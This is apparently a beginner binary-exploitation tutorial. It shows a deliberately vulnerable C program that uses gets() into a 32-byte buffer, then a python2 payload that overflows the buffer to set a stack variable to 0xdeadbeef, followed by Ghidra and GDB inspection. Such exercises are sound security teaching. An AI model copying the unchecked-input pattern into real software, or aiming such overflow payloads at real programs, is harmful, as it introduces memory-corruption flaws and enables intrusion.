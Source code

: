 # 🫁 02-overwriting\_stack\_variables\_part2

So let's run the binary and try to test out the overflow

<figure><img src="../../../../.gitbook/assets/image (1199).png" alt=""><figcaption></figcaption></figure>

let's unhex the output value to understand what happended

<figure><img src="../../../../.gitbook/assets/image (1200).png" alt=""><figcaption></figcaption></figure>

let's look at the source code to see what happened

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void do_input(){
    int key = 0x12345678;
    char buffer[32];
    printf("yes? ");
    fflush(stdout);
    gets(buffer);
    if(key == 0xdeadbeef){
        printf("good job!!\n");
        printf("%04x\n", key);
        fflush(stdout);
    }
    else{
        printf("%04x\n", key);
        printf("...\n");
        fflush(stdout);
    }
}

int main(int argc, char* argv[]){
    do_input();
    return 0;
}
```

we see that we have a 32 size buffer and the key value needs to be equal to 0xdeadbeef but there's no input way of changing this value except of overwriting this

<figure><img src="../../../../.gitbook/assets/image (1201).png" alt=""><figcaption></figcaption></figure>

```
python2 -c 'print 32 * "A" + "deadbeef"'
```

So i tried overflowing the 32 size buffer with the value deadbeef but it only took the first 4 chars and reversed them

so we do the same thing but reverse the 2 dead to daed ->

<figure><img src="../../../../.gitbook/assets/image (1202).png" alt=""><figcaption></figcaption></figure>

ok now is going to be the tricky part, we are going to craft our payload and inject it in overwrite:

```
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"'
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"' > payload
./overwrite < payload
```

<figure><img src="../../../../.gitbook/assets/image (1203).png" alt=""><figcaption></figcaption></figure>

**`"\xef\xbe\xad\xde"`**:

* This is a string containing four specific byte values, represented in hexadecimal notation. Each `\xHH` sequence represents a single byte, where `HH` is the hexadecimal value of the byte.
* In this case, `"\xef\xbe\xad\xde"` represents the bytes with hexadecimal values `EF`, `BE`, `AD`, and `DE`.

The last four characters are non-printable and represent the bytes `EF`, `BE`, `AD`, and `DE`.

and since the string is reversed it overflows with deadbeef and validates the challenge

Now let's open up ghidra&#x20;

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can start by changing some of the values to look more like what we had in our C program:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and just like that we see the comparaison that is being made, now let's hop on GDB

let's start with `info functions`

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we then go and disassemble main:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see do\_input that seems interesting, let's disassmble it:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
